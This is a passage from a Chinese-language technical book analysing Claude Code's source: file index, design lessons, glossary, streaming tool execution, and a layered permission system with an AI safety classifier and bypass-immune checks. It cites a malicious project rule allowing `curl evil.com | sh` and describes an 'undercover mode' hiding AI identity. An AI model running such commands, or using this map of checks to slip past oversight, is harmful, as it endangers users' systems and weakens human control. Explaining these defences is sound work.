- `completeMainSessionTask()`（第 168 行）完成时用 XML `task_notification`（`enqueuePendingNotification`，mode `task-notification`）唤醒模型
- `foregroundMainSessionTask()`（第 270 行）恢复前台

### 74.4 停止与导航

`src/tasks/stopTask.ts` 的 `stopTask()`（第 38 行）被 TaskStopTool（LLM 调用）与 SDK `stop_task` 控制请求共用；`StopTaskError` 区分 not_found/not_running/unsupported_type；对 bash 任务抑制 "exit 137" 通知噪音。

`src/hooks/useBackgroundTaskNavigation.ts` — Shift+Up/Down 在队友/后台任务间切换，`f` 看 transcript、`k` kill。

---

# 第十四部分 附录

## 第 75 章 关键文件索引

### 75.1 启动与入口

| 文件 | 行数 | 职责 |
|---|---|---|
| `src/entrypoints/cli.tsx` | 302 | 最外层 bootstrap，fast-path 分发 |
| `src/main.tsx` | 4683 | Commander 主程序、引导、交互/非交互分发 |
| `src/entrypoints/init.ts` | 340 | `init()` 配置/网络/遥测/清理初始化 |
| `src/setup.ts` | 477 | `setup()` cwd/worktree/hooks/权限 |
| `src/replLauncher.tsx` | 22 | 动态加载 App + REPL 并渲染 |
| `src/bootstrap/state.ts` | 1758 | 全局单例 STATE |
| `src/cli/print.ts` | 5594 | `runHeadless()` 非交互执行引擎 |
| `src/cli/transports/*` | - | WebSocket/SSE/Hybrid 传输层 |

### 75.2 查询引擎

| 文件 | 行数 | 职责 |
|---|---|---|
| `src/QueryEngine.ts` | 1295 | 编排层：会话生命周期、SDK 转换、成本预算 |
| `src/query.ts` | 1729 | 核心 `queryLoop` 主循环 |
| `src/services/api/claude.ts` | 3419 | 流式 SSE 解析 |
| `src/services/api/withRetry.ts` | - | API 重试 |
| `src/services/tools/toolOrchestration.ts` | - | `runTools` 并发分桶 |
| `src/services/tools/toolExecution.ts` | - | `runToolUse` 工具生命周期 |
| `src/services/tools/StreamingToolExecutor.ts` | - | 流式工具并发执行 |

### 75.3 工具系统

| 文件 | 职责 |
|---|---|
| `src/Tool.ts` | 工具基类/接口 + `buildTool` 工厂 |
| `src/tools.ts` | 工具注册表 `getAllBaseTools` |
| `src/tools/BashTool/BashTool.tsx` | Bash 执行 |
| `src/tools/FileReadTool/FileReadTool.ts` | 文件读 |
| `src/tools/FileEditTool/FileEditTool.ts` | 文件编辑 |
| `src/tools/FileWriteTool/FileWriteTool.ts` | 文件写 |
| `src/tools/GlobTool/GlobTool.ts` | 文件搜索 |
| `src/tools/GrepTool/GrepTool.ts` | 内容搜索 |
| `src/tools/LSPTool/LSPTool.ts` | 代码智能 |
| `src/tools/WebFetchTool/WebFetchTool.ts` | 网页抓取 |
| `src/tools/WebSearchTool/WebSearchTool.ts` | 网页搜索 |
| `src/tools/AgentTool/AgentTool.tsx` | 子代理委派 |
| `src/tools/SendMessageTool/SendMessageTool.ts` | 代理间消息 |
| `src/tools/SkillTool/SkillTool.ts` | 技能调用 |

### 75.4 多代理

| 文件 | 职责 |
|---|---|
| `src/coordinator/coordinatorMode.ts` | Coordinator 协调模式 |
| `src/tools/AgentTool/forkSubagent.ts` | Fork 子代理 |
| `src/tools/AgentTool/builtInAgents.ts` | 内置代理注册 |
| `src/tools/shared/spawnMultiAgent.ts` | Swarm 派生 |
| `src/utils/swarm/spawnInProcess.ts` | 进程内 teammate spawn |
| `src/utils/swarm/inProcessRunner.ts` | 进程内 teammate 运行 |
| `src/utils/tasks.ts` | 共享任务系统（blocks/blockedBy） |

### 75.5 钩子

| 文件 | 职责 |
|---|---|
| `src/utils/hooks.ts` | 钩子执行核心引擎（5023 行）|
| `src/types/hooks.ts` | 钩子类型与 Zod 校验 |
| `src/schemas/hooks.ts` | 钩子配置 Zod schema |
| `src/services/tools/toolHooks.ts` | 钩子与工具管道集成 |

### 75.6 记忆与上下文

| 文件 | 职责 |
|---|---|
| `src/memdir/memdir.ts` | 提示词构建、MEMORY.md 截断 |
| `src/memdir/findRelevantMemories.ts` | 查询时召回 |
| `src/memdir/paths.ts` | 路径解析与开关 |
| `src/utils/claudemd.ts` | CLAUDE.md 机制 |
| `src/services/compact/compact.ts` | 核心压缩逻辑 |
| `src/services/SessionMemory/sessionMemory.ts` | 会话记忆维护 |
| `src/utils/undercover.ts` | undercover 模式 |

### 75.7 UI 与状态

| 文件 | 职责 |
|---|---|
| `src/ink/ink.tsx` | Ink 类：reconciler 容器 + 帧调度 |
| `src/ink/root.ts` | createRoot/renderSync |
| `src/native-ts/yoga-layout/index.ts` | 纯 TS flexbox 布局引擎 |
| `src/screens/REPL.tsx` | 核心屏幕 |
| `src/state/store.ts` | 自研轻量 store |
| `src/state/AppStateStore.ts` | AppState 类型定义 |

## 第 76 章 架构设计启示

通读 Claude Code 源码后，可以提炼出一系列值得借鉴的架构设计启示：

### 76.1 延迟加载与零模块启动

`cli.tsx` 的 fast-path 分发揭示了"高频命令零开销"的设计哲学。对于 `--version`、`daemon-worker`、`remote-control` 等被 CI/自动化高频调用的命令，通过短路返回避免加载庞大的依赖树。这一思想可推广到任何 CLI 工具——**识别高频低功能路径，为它们专门优化冷启动**。

### 76.2 fail-closed 默认值

工具系统 `buildTool` 的默认值 `isConcurrencySafe: () => false`、`isReadOnly: () => false` 是 fail-closed 设计的典范。默认假设最危险的情况（写操作、不并发安全），只有工具明确声明安全属性才获得优化特权。这避免了"未正确标注的工具走危险的并发路径"风险。

### 76.3 prompt cache 友好的工程实践

Claude Code 处处为 prompt cache 优化：

- 工具排序：内置工具作为连续前缀，稳定排序
- fork 子代理：继承父精确工具数组，保证字节一致
- observable input 回填：不改动 API 绑定的原始输入
- 摘要模型不调工具：`createCompactCanUseTool` 全拒，避免缓存破坏
- compact 后恢复 readFileState：减少重复读取

这揭示了"prompt cache 是 LLM 应用的性能生命线"这一认知，工程上需全方位守护。

### 76.4 分层信任与纵深防御

权限模型 allow/deny/ask 三态、Bash 的 AST 命令注入检测、hook allow 不绕过 deny 规则、记忆路径的穿越与 symlink 逃逸防护、插件的市场源策略门控、undercover 模式阻止内部代号泄漏——多层防御确保单一环节失效不会导致系统沦陷。特别是"hook allow 不绕过 deny 规则"这一设计，防止了恶意/错误的钩子放行危险操作。

### 76.5 让 LLM 自主决定，而非硬编码

Coordinator 模式"无硬编码并发上限，靠主代理在单条消息内发多个 Agent 调用实现并行"是一个反直觉但深刻的设计。传统工程倾向于用代码约束并发，而 Claude Code 选择**信任 LLM 的判断**，只在必要处（`claimTaskWithBusyCheck` 防止一个 agent 认领过多任务）施加硬约束。这反映了"LLM 作为编排者"的范式转变。

### 76.6 文件即接口

记忆系统用文件（markdown + frontmatter）作为持久化与接口，CLAUDE.md 用 `@include` 指令组合，技能用 SKILL.md 定义，插件用清单 + 目录。这种"文件即接口"的设计让系统极度透明可调试——一切都是可读的文本文件，可手动编辑、版本控制、diff 比较。

### 76.7 确定性优先

Buddy 抽卡用 Mulberry32 + hash(userId) 保证"同一用户永远抽到同一只宠物"；记忆巩固用文件锁 mtime 作为时间门。确定性简化了测试、避免了状态同步问题、让"重新推导"成为可能（bones 不持久化，每次从 userId 推导，防作弊）。

### 76.8 熔断器与务实主义

自动压缩的熔断器（连续失败 3 次停止）源于真实的运维事故（1,279 个会话 50+ 连续失败，浪费 250K 次 API 调用/天）。这是"宁可让用户手动处理，也不要无谓消耗"的务实主义。优秀的系统不仅要能正常工作，还要能在异常情况下优雅降级而非无限消耗。

### 76.9 流式执行与重叠并行

`StreamingToolExecutor` 让工具在模型仍在流式输出时就并发执行，这是端到端延迟优化的关键。对于"读取多个文件"这类并发安全工具，端到端延迟接近最慢的一个工具而非所有工具之和。这种"尽早开始、重叠执行"的思想可推广到任何流式处理系统。

## 第 77 章 术语表

| 术语 | 解释 |
|---|---|
| **REPL** | Read-Eval-Print Loop，交互式终端界面 |
| **queryLoop** | 核心查询循环，每轮迭代=一次模型推理+工具执行 |
| **QueryEngine** | 核心编排层，封装会话生命周期 |
| **tool_use / tool_result** | Anthropic API 的工具调用语义 |
| **content block** | 模型消息的组成块（text/thinking/tool_use）|
| **prompt cache** | Anthropic API 的提示缓存机制 |
| **AppState** | 全局运行时业务状态 |
| **STATE** | 引导期全局单例基础状态 |
| **compact** | 上下文压缩 |
| **subagent / teammate** | 子代理 / 持久协作代理 |
| **MCP** | Model Context Protocol |
| **Bridge** | 连接 CLI 与 claude.ai/code 的集成层 |
| **CCR** | Claude Code Remote，远程会话模式 |
| **ant** | Anthropic 内部构建标记 |
| **feature gate** | 特性开关 |
| **forked agent** | 共享父进程 prompt cache 的子代理 |
| **bones** | Buddy 的确定性部分（稀有度/物种/属性）|
| **soul** | Buddy 的 LLM 生成部分（名字/性格）|
| **Mulberry32** | 一个轻量 PRNG 算法 |
| **FNV-1a** | Fowler-Noll-Vo 哈希变体 |
| **UDS** | Unix Domain Socket |
| **PKCE** | Proof Key for Code Exchange，OAuth 扩展 |
| **XAA** | Cross-App Access，企业跨应用访问 |
| **ETag** | 实体标签，HTTP 乐观锁机制 |
| **TOCTOU** | Time-of-check to time-of-use，竞态条件 |
| **PTL** | Prompt Too Long，提示超长错误 |
| **microcompact** | 预压缩 token 削减 |
| **session memory** | 单会话运行摘要 |
| **transcript** | 完整会话 JSONL 记录 |
| **undercover mode** | 贡献公共仓库时隐藏 AI 身份的安全模式 |
| **Tengu** | Claude Code 的内部代号 |
| **Capybara** | 内部模型代号 |
| **Scratchpad** | 跨 worker 持久知识目录 |
| **mailbox** | Swarm teammate 间的文件邮箱通信 |
| **claimTask** | 共享任务认领（含 busy 检查）|

---


# 第十五部分 深度原理剖析

本部分对各核心子系统进行更深入的原理剖析与设计权衡分析，补充源码级讲解，是前文各章的深化扩展。

## 第 78 章 启动延迟隐藏与 queryLoop 不变量

Claude Code 的启动流程表面上看只是"按顺序调用一系列初始化函数"，但深入分析其时序安排，可以发现一套贯穿始终的**延迟隐藏哲学**——把耗时的系统调用提前到与有用工作并行的时机执行，让用户感知的冷启动延迟最小化。这一哲学在三个层面体现。

### 78.1 模块加载阶段的并行预取

阶段 0（模块顶层副作用）是最能体现这一哲学的环节。当一个 Node.js/Bun 进程启动时，`src/main.tsx` 的模块加载本身需要数百毫秒（要解析、编译大量 TypeScript）。Claude Code 在这段时间内并行启动了两个耗时的系统调用：

```ts
// src/main.tsx 第 1-20 行
profileCheckpoint('main_tsx_entry')
startMdmRawRead()      // 触发 MDM 子进程（plutil/reg query）
startKeychainPrefetch() // macOS 钥匙串预取（OAuth + 旧 API key）
```

`startMdmRawRead()` 会 spawn 一个子进程执行 `plutil`（macOS）或 `reg query`（Windows）来读取 MDM（移动设备管理）配置。这是一个典型的"调用即返回"的非阻塞操作——子进程在后台运行，主线程立即继续加载模块。等到 `preAction` hook 执行 `await ensureMdmSettingsLoaded()`（`main.tsx:914`）时，子进程大概率已经完成，主线程几乎零等待即可拿到结果。

`startKeychainPrefetch()` 同理：macOS 的钥匙串访问（`Security framework`）是同步阻塞调用，单次读取约阻塞 65ms。如果在 `init()` 中同步读取（OAuth token + 旧 API key 两次，约 130ms），用户会明显感知卡顿。通过提前到模块加载阶段并行预取，这 130ms 被隐藏在 TypeScript 编译时间里。

这种"把 I/O 提前到与编译并行"的技巧，本质上是利用了 JavaScript 事件循环的非阻塞特性与子进程的并行性。它要求初始化函数设计为"触发 + 等待"两段式（`startXxx` + `ensureXxxCompleted`），而非传统的"调用即返回结果"的同步函数。

### 78.2 网络预连与 TLS 握手重叠

`init.ts:159` 的 `preconnectAnthropicApi()` 是另一个延迟隐藏的典范。建立到 `api.anthropic.com` 的 TCP 连接 + TLS 握手需要约 100-200ms（网络往返 + 证书验证）。如果等用户真正发起第一次 LLM 请求时才建立连接，用户会感受到明显的首字节延迟（TTFT）。

通过在 `init()` 阶段预连，TCP+TLS 握手与后续的配置加载、worktree 创建等工作重叠。当用户真正发起第一次查询时，连接已就绪，HTTP/2 的流可以立即复用。这是 Web 性能优化中"preconnect"hint 在 CLI 场景的移植。

### 78.3 首帧渲染后的延迟预取

阶段 3 的 `startDeferredPrefetches`（`main.tsx:388`）把非关键的数据获取推迟到首帧渲染之后。这包括 `initUser`、`getUserContext`（CLAUDE.md 加载）、`prefetchSystemContextIfSafe`（git 状态快照）、tips、countFiles、analyticsGates、officialMcpUrls、modelCapabilities 等。

这一安排的深层考量是：**用户看到 UI 的第一帧是心理上的"已启动"信号**。即使后续预取还在进行，用户已经可以开始输入（虽然第一次查询可能需要等待预取完成）。把不阻塞首帧的工作推迟，优化了感知性能而非纯技术性能。`--bare` 与测速模式下整体跳过（第 393-401 行），因为这些场景不关心 UI 渲染，只关心原始速度。

### 78.4 时序约束的不可打乱性

三阶段引导的顺序不仅是性能优化，更包含**正确性约束**：

- `applyExtraCACertsFromConfig()`（`init.ts:79`）必须在任何 TLS 连接（包括 `preconnectAnthropicApi`）之前应用 `NODE_EXTRA_CA_CERTS`，否则预连会因证书校验失败
- `setCwd(cwd)`（`setup.ts:161`）必须在任何依赖 cwd 的代码之前——worktree 创建、git 操作、CLAUDE.md 发现都依赖正确的 cwd
- `applySafeConfigEnvironmentVariables()` 在信任建立之前只应用"安全"环境变量，防止未信任的项目配置注入危险环境变量
- `initSinks()` 必须在 `logEvent('tengu_started')` 之前完成，否则事件会入队而非上报

这些约束如果被打乱，会导致难以调试的间歇性故障。这也是 `bootstrap/state.ts` 顶部"DO NOT ADD MORE STATE HERE"与"THINK THRICE BEFORE MODIFYING"警告的深层原因——全局状态的初始化时序极其敏感。

### 78.5 queryLoop 的不变量与状态转换

第 13 章描述了 queryLoop 单次迭代的步骤，但更深层的理解在于把握其**不变量（invariants）**与**状态转换规则**。queryLoop 是一个异步生成器，其核心难度在于：流式接收、工具并发执行、错误恢复三者交织，且必须保持消息历史的 API 一致性。下面首先看 tool_use/tool_result 配对不变量。

### 78.6 tool_use / tool_result 配对不变量

Anthropic Messages API 的核心约束是：**每一个 `tool_use` 块必须在后续消息中以对应的 `tool_result` 块回填**，且 `tool_use_id` 必须匹配。如果配对缺失，API 会返回 400 错误。Claude Code 在多个错误恢复路径中维护这一不变量：

- **中断处理**（`query.ts:1015-1052`）：abort 时调用 `streamingToolExecutor.getRemainingResults()` 为所有已入队但未完成的工具生成合成 `tool_result`（标记为中断），防止 tool_use 无配对
- **流式 fallback**（`:711-741`）：丢弃已产出 assistant 消息时，对孤儿 tool_use 通过 `yieldMissingToolResultBlocks` 补合成
- **错误兜底**（`:955-997`）：`yieldMissingToolResultBlocks` 为孤儿 tool_use 补合成 tool_result

```mermaid
flowchart TD
    TU[tool_use 块产出] --> CONCERN{配对追踪}
    CONCERN --> EXEC[正常执行 → tool_result]
    CONCERN --> ABORT[中断?]
    ABORT --> SYN1[getRemainingResults 合成 tool_result]
    CONCERN --> FB[流式fallback?]
    FB --> SYN2[yieldMissingToolResultBlocks 补合成]
    CONCERN --> ERR[错误?]
    ERR --> SYN3[yieldMissingToolResultBlocks 补合成]
    EXEC --> PAIR[配对完整]
    SYN1 --> PAIR
    SYN2 --> PAIR
    SYN3 --> PAIR
    PAIR --> NEXT[下一轮 messages 一致]
```

### 78.7 content block 切分与 transcript 引用

第 14 章提到"每个 content_block_stop 产出一个 assistant 消息"，但其深层原因涉及 **transcript 引用稳定性**。`message_delta` 事件中 Claude Code 选择**直接 mutate** `lastMsg.message.usage / .stop_reason`（`claude.ts:2236` 注释），而非替换整个消息对象。这是因为在 `message_delta` 到达时，该 assistant 消息已经被 push 到 `mutableMessages` 并可能被 UI 渲染、被 transcript 持久化、被其他子系统引用。如果替换对象，所有持有旧引用的代码都会拿到过时数据。

通过 mutate而非替换，确保了所有引用方看到一致的最终状态。这一决策的代价是失去了"消息不可变"的纯粹性，但在工程上是正确的权衡——在一个有大量子系统并发读取消息历史的系统中，引用稳定性比不可变性更重要。

### 78.8 State 的跨迭代继承

`State`（`query.ts:204-217`）是 queryLoop 跨迭代可变状态。每轮迭代结束时 `state = next`（`:1727`），把本轮的 `messages`、`toolUseContext`、`autoCompactTracking`、`maxOutputTokensRecoveryCount`、`hasAttemptedReactiveCompact`、`turnCount` 等传递给下一轮。

这里的关键不变量是 `hasAttemptedReactiveCompact`——它防止死循环。当 prompt-too-long 触发 reactive compact 后，如果 compact 后仍超长（理论上不应该，但摘要模型可能失败），系统不会无限重试 reactive compact，而是 fallback 到其他恢复路径。`maxOutputTokensRecoveryCount`（最多 `MAX_OUTPUT_TOKENS_RECOVERY_LIMIT=3` 次）同样限制 max_output_tokens 恢复的尝试次数。这些计数器是防止"恢复路径本身触发需要恢复的同一错误"的熔断机制。

### 78.9 消息预处理管道的从轻到重原则

第 19 章列出了消息预处理管道的 6 步，但其设计哲学值得深入阐述。这是一个**从轻到重、从破坏性小到破坏性大**的管道：

1. **getMessagesAfterCompactBoundary**（零成本）：只是切片，不改变消息内容
2. **applyToolResultBudget**（低成本）：按预算裁剪工具结果大小，不改语义
3. **snipCompactIfNeeded**（HISTORY_SNIP，低成本）：历史裁剪，丢弃最旧消息
4. **microcompactMessages**（中成本）：用 cache_edits API 删除旧 tool_result，不改本地内容
5. **applyCollapsesIfNeeded**（CONTEXT_COLLAPSE，中成本）：上下文折叠
6. **autoCompactIfNeeded**（高成本）：摘要化，调用 LLM

前置步骤越轻量、越不破坏上下文，越优先尝试。只有当轻量步骤不足以缓解压力时才升级。这种分级设计确保了：在大多数轮次中，只有零成本的切片和裁剪被执行，用户几乎无感知；只有当上下文真正接近上限时，才触发昂贵的摘要。这比"一刀切"的压缩策略（要么不压缩，要么全量摘要）高效得多。


## 第 79 章 流式工具执行的并发正确性与兄弟取消

第 16 章介绍了 StreamingToolExecutor 的并发模型，但其**正确性保证**值得深入剖析。流式工具执行的本质挑战是：工具在模型仍在流式输出时就开始执行，而模型后续可能产出新的 tool_use 块，这些块的执行可能与已开始的工具产生依赖或冲突。

### 79.1 isConcurrencySafe 的语义契约

`isConcurrencySafe(input)`（`Tool.ts:402`）是一个**语义契约**，而非机械的只读判定。工具自声明为并发安全，意味着它满足两个条件：

1. **无副作用或副作用隔离**：如 Read 只读文件系统不修改，Grep 只调用 ripgrep 不修改，WebFetch 只发 HTTP 请求不修改本地状态
2. **无共享可变状态**：不依赖也不修改全局可变状态（如不修改 AppState 中其他工具可能读取的字段）

BashTool 的 `isConcurrencySafe` 等于 `isReadOnly`（`BashTool.tsx:434`），这是关键设计——只有只读 Bash 命令才并发安全。一个 `cat file` 可以与另一个 `grep pattern` 并行，但 `git commit` 必须串行。

### 79.2 contextModifier 的延迟应用

`ToolResult.contextModifier` 允许工具修改执行上下文（如更新 readFileState）。对于并发安全工具，多个工具的 contextModifier 会**延迟到 batch 结束统一应用**（`toolOrchestration.ts`）。这是为了避免并发工具的 context 修改相互覆盖（竞态条件）。

例如，两个并发的 Read 工具都更新 readFileState：A 读了 file1，B 读了 file2。如果立即应用，A 的修改可能被 B 覆盖（取决于 readFileState 的更新粒度）。延迟到 batch 结束统一应用，确保所有修改都保留。对于非并发安全工具（串行执行），context modifier 立即应用，因为不存在并发冲突。

### 79.3 Bash 错误级联的设计权衡

StreamingToolExecutor 的 Bash 错误级联（`StreamingToolExecutor.ts:354-364`）是一个有趣的设计权衡。当 Bash 工具 `is_error` 时，它会 `siblingAbortController.abort('sibling_error')` 取消所有兄弟工具。但 Read/WebFetch 等独立工具失败不影响其它。

这一不对称设计的理由是：Bash 命令失败往往意味着环境出了问题（如磁盘满、权限错误、依赖缺失），后续命令大概率也会失败或产生误导性结果。继续执行它们是浪费。而 Read/WebFetch 的失败通常是局部的（某个文件不存在、某个 URL 不可达），不影响其他独立工具。这是基于"失败相关性"的启发式判断——相关失败级联取消，独立失败各自处理。

```mermaid
sequenceDiagram
    participant M as 模型流式输出
    participant SE as StreamingToolExecutor
    participant R1 as Read工具1
    participant R2 as Read工具2
    participant B1 as Bash工具(只读)
    participant B2 as Bash工具(失败)

    M->>SE: tool_use: Read file1
    SE->>R1: executeTool (并发安全)
    M->>SE: tool_use: Read file2
    SE->>R2: executeTool (与R1并行)
    M->>SE: tool_use: Bash(git status)
    SE->>B1: executeTool (只读 并行)
    R1-->>SE: result
    R2-->>SE: result
    M->>SE: tool_use: Bash(rm xxx)
    SE->>B2: executeTool (非只读 串行)
    B2-->>SE: is_error!
    Note over SE: Bash错误级联
    SE->>SE: siblingAbortController.abort
    Note over SE: 取消所有兄弟工具
    SE-->>M: 已开始的结果 + 合成错误
```

### 79.4 顺序保持：getCompletedResults 的按序产出

`getCompletedResults`（`:412`）非阻塞按序产出已完成结果。这里"按序"指按 tool_use 块在模型输出中的出现顺序，而非完成顺序。即使 Read2 比 Read1 先完成，结果也会按 Read1、Read2 的顺序产出。

这一顺序保持至关重要——它确保回填给模型的 tool_result 顺序与模型产出 tool_use 的顺序一致，维持了对话的逻辑可读性，也让 prompt cache 的前缀尽可能稳定（如果结果顺序不确定，缓存前缀会频繁失效）。

### 79.5 siblingAbortController 的取消传播

`StreamingToolExecutor` 的每个工具一个 `toolAbortController`（子控制器，`:301`），同时有一个 `siblingAbortController`。Bash 错误时 `siblingAbortController.abort('sibling_error')`，取消所有兄弟工具。

### 79.6 仅 Bash 错误级联的设计理由

仅 Bash 工具 `is_error` 时设 `hasErrored` 并取消兄弟，Read/WebFetch 等独立工具失败不影响其它。理由是"失败相关性"——Bash 失败往往意味环境问题（后续命令也会失败），而 Read/WebFetch 失败是局部的。

但这只是启发式——有时 Bash 失败也是局部的（如某命令不存在），取消兄弟可能误杀。这是"宁可错杀不放过"的保守策略——错误级联比继续执行可能失败的工具更安全。

### 79.7 discard 的流式 fallback 丢弃

`discard()`（`:69`）：流式 fallback 时丢弃，生成合成错误结果。流式 fallback 是指流式执行失败回退到非流式，此时已入队的流式工具被丢弃，生成合成错误结果防止 tool_use 无配对。

### 79.8 getRemainingResults 的阻塞等待

`getRemainingResults`（`:453`）：阻塞等待剩余。流式结束后，部分工具可能仍在执行（长耗时），`getRemainingResults` 阻塞等待所有工具完成，确保 tool_result 配对完整。


## 第 80 章 权限模型的分层决策与安全边界

第 23 章概述了权限模型的 allow/deny/ask 三态，但其分层决策机制与安全边界设计值得更深入的剖析。Claude Code 的权限系统不是单一的"规则匹配"，而是一个多层决策栈，每一层有不同的信任级别与安全语义。

### 80.1 规则来源的信任层级

权限规则按来源（`PermissionRuleSource`）有不同的信任级别：

| 来源 | 信任级别 | 可被用户控制 | 示例 |
|---|---|---|---|
| `policySettings`（managed/MDM）| 最高（企业强制）| 否（IT 管理）| 企业禁止某些工具 |
| `userSettings`（`~/.claude/settings.json`）| 高（用户全局）| 是 | 用户全局允许 `Bash(git *)` |
| `projectSettings`（`.claude/settings.json`）| 中（项目级，可提交）| 是 | 项目要求 `Bash(npm test)` ask |
| `localSettings`（`.claude/settings.local.json`）| 中（项目本地，不提交）| 是 | 个人本地的临时规则 |
| `flagSettings`（CLI 参数）| 高（显式覆盖）| 是 | `--allowedTools` |
| `command`/`session` | 临时 | 是 | 运行时动态规则 |

`projectSettings` 的特殊之处在于它可以被提交到版本库，因此可能包含恶意规则（如某个开源项目的 `.claude/settings.json` 里偷偷允许 `Bash(curl evil.com | sh)`）。这就是为什么 `autoMemoryDirectory` 来源刻意排除 `projectSettings`——防止恶意仓库把记忆目录指向敏感位置。类似地，`hooksConfigSnapshot` 的策略门控（`allowManagedHooksOnly`）允许企业强制只使用 managed 钩子，防止项目 hooks 执行危险代码。

### 80.2 deny 规则的绝对优先性

`checkRuleBasedPermissions`（`permissions.ts:1071-1156`）的优先级链中，deny 规则具有**绝对优先性**——即使 hook 返回 allow，deny 规则仍然生效。这一设计体现在 `resolveHookPermissionDecision`（`toolHooks.ts:332-431`）：

```
hook allow → 仍跑 checkRuleBasedPermissions，deny 规则可覆盖
hook deny → 直接拒绝
hook ask / 无决策 → canUseTool 正常权限流
```

这是安全设计的核心原则：**自动化决策不能凌驾于安全策略之上**。一个 hook（可能来自插件、可能被篡改）说"允许"，不能放行被 deny 规则明确禁止的操作。只有 deny 没有 hook 覆盖权，而 allow 可以被 deny 覆盖。这种非对称设计确保了安全策略的最终决定权。

### 80.3 safetyCheck 的不可绕过性

safetyCheck（`checkRuleBasedPermissions` 的 1g 步骤）检查 `.git/`、`.claude/`、`.vscode/`、shell 配置（`.bashrc`/`.zshrc`）等敏感路径。这些路径的写操作**即使 hook allow 也必须提示用户**。原因在于：

- `.git/` 被篡改可能改变提交历史、窃取凭据
- `.claude/` 被篡改可能注入恶意 hooks/CLAUDE.md/权限规则
- shell 配置被篡改可能注入持久后门（每次开 shell 执行恶意代码）
- `.vscode/` 被篡改可能注入恶意扩展配置

这些路径的修改具有"提权"效应——一次修改可以影响后续所有操作。因此 safetyCheck 是**最后一道防线**，无论前面的规则和 hook 如何决策，触及这些路径都强制 ask。这是纵深防御的体现——不依赖单一决策点，多重检查确保安全。

### 80.4 auto 模式的 AI 分类器

当权限模式为 `auto` 且规则决策为 ask 时，系统不会直接弹窗（auto 模式旨在减少中断），而是调用 AI 分类器（`TRANSCRIPT_CLASSIFIER` feature）。分类器是一个独立的 LLM 调用，分析工具调用的输入与上下文，判断是否安全。

为了加速这一过程，BashTool 实现了**投机分类器**（`startSpeculativeClassifierCheck`，`bashPermissions.ts:1497`）：在权限检查开始时并行启动分类器，与 hook/规则检查同时进行。如果规则最终决策为 ask，分类器结果可能已经就绪，无需额外等待。这是"投机执行"在权限系统的应用——预测最可能的结果并提前计算。

分类器决策的 `reason` 标记为 `classifier`，与 `rule`/`mode`/`hook` 等区分，便于审计分类器的判断质量。后台代理（`shouldAvoidPermissionPrompts`，无 UI）遇 ask 时直接 deny，因为后台代理无法弹窗。

```mermaid
flowchart TD
    REQ[工具调用] --> DENY{deny规则?}
    DENY -->|是| D[deny reason=rule]
    DENY -->|否| ASK{ask规则?}
    ASK -->|是| ASK2{Bash沙箱可放行?}
    ASK2 -->|是| ALW[allow reason=sandboxOverride]
    ASK2 -->|否| MODE{权限模式}
    ASK -->|否| TCP{tool.checkPermissions?}
    TCP -->|deny| D
    TCP -->|passthrough| SAFE{safetyCheck 敏感路径?}
    SAFE -->|是| MODE
    SAFE -->|否| ALW2[allow reason=rule]
    MODE -->|default| PROMPT[弹窗 reason=permissionPromptTool]
    MODE -->|auto| CLS[AI分类器 reason=classifier]
    MODE -->|bypassPermissions| ALW3[allow reason=mode]
    MODE -->|dontAsk/后台代理| D2[deny reason=mode]
    CLS --> CLSDEC{分类结果}
    CLSDEC -->|安全| ALW4[allow]
    CLSDEC -->|不安全| D3[deny]
```

### 80.5 checkRuleBasedPermissions 的 bypass 免疫子集

`checkRuleBasedPermissions` 仅运行"bypass 模式也尊重的规则子集"——这是安全设计的核心。即使 `bypassPermissions` 模式，deny 规则、content-specific ask 规则、safetyCheck 仍然生效。流程：

- **1a**：`getDenyRuleForTool` → 若命中 deny，返回 `{behavior:'deny', decisionReason:{type:'rule', rule}}`
- **1b**：`getAskRuleForTool` → 若命中 ask，除非 `canSandboxAutoAllow`（Bash 工具且沙箱开启 `autoAllowBashIfSandboxed` 且 `shouldUseSandbox(input)`），否则返回 ask；否则 fall through 让 Bash `checkPermissions` 处理子命令级规则
- **1c**：调用 `tool.checkPermissions(parsedInput, context)`，默认 passthrough
- **1d**：若 `behavior === 'deny'`，返回
- **1f**：若 `behavior === 'ask'` 且 `decisionReason.type === 'rule'` 且 `rule.ruleBehavior === 'ask'`，返回（content-specific ask 规则，bypass 也要尊重）
- **1g**：若 `behavior === 'ask'` 且 `decisionReason.type === 'safetyCheck'`，返回（安全检查 bypass 免疫）
- 否则返回 `null`（无规则异议）

### 80.6 hasPermissionsToUseToolInner 的完整管道

`hasPermissionsToUseToolInner`（行 1158-1319）在 `checkRuleBasedPermissions` 基础上增加 bypass/allow/mode 处理：

1. **1a** deny 规则（整工具）→ deny
2. **1b** ask 规则（整工具），除非 `canSandboxAutoAllow`，否则 ask
3. **1c** `tool.checkPermissions`（默认 passthrough，捕获异常仅 logError，abort 错误重抛）
4. **1d** 工具实现返回 deny → 直接返回
5. **1e** `tool.requiresUserInteraction?.() && behavior==='ask'` → 直接返回 ask（bypass 也要交互）
6. **1f** content-specific ask 规则 → 返回
7. **1g** safetyCheck（`.git/`、`.claude/`、shell 配置等）→ 返回（bypass 免疫）
8. **2a** bypass 判定：`mode==='bypassPermissions'` 或（`mode==='plan' && isBypassPermissionsModeAvailable`）→ allow
9. **2b** `toolAlwaysAllowedRule` → allow
10. **3** 把 `passthrough` 转为 `ask`（附 `createPermissionRequestMessage`）

### 80.7 决策优先级的核心原则

从算法流程可提炼决策优先级的核心原则：**deny 优先于 ask 优先于 allow**。这意味着：

- deny 规则总是最先检查，命中即返回，不被后续 allow 覆盖
- ask 规则次之，命中即返回，不被后续 allow 覆盖
- allow 规则在 deny/ask 都未命中时才检查
- safetyCheck 是特殊的 ask，bypass 免疫
- bypass 模式在 deny/ask/safetyCheck 之后才生效

这一优先级确保了"安全策略的绝对性"——任何被 deny 的操作，无论模式如何，都不会被放行。

### 80.8 PermissionDecisionReason 的审计价值

`PermissionDecisionReason`（行 271-324）是判别联合，类型有 `rule`/`mode`/`subcommandResults`/`permissionPromptTool`/`hook`/`asyncAgent`/`sandboxOverride`/`classifier`/`workingDir`/`safetyCheck`/`other`。每个决策都记录 reason，便于审计"为什么这个操作被允许/拒绝"。

`safetyCheck` 类型还带 `classifierApprovable: boolean` 字段（行 319），决定 auto 模式分类器能否覆盖该安全检查。这一字段区分了"可被分类器覆盖的安全检查"（敏感文件路径，`classifierApprovable: true`）与"不可覆盖的安全检查"（Windows 旁路、跨机桥接，`classifierApprovable: false`）。

```mermaid
flowchart TD
    IN[工具调用] --> R1[1a 整工具deny规则]
    R1 -->|命中| D1[deny reason=rule]
    R1 -->|未命中| R2[1b 整工具ask规则]
    R2 -->|命中| CHK{沙箱可自动放行?}
